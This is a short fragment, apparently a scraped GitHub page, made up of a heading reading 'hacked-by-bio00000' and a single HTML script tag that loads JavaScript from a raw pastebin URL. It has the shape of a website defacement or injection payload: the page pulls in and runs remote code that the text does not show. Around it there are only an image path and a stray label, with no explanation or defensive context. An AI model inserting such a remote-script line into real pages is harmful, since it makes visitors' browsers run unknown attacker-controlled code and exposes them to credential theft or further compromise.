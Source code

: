 # hacked-by-bio00000
&lt;script type="text/javascript" src=" https://pastebin.com/raw/EZbRBvW5 ">&lt;/script>
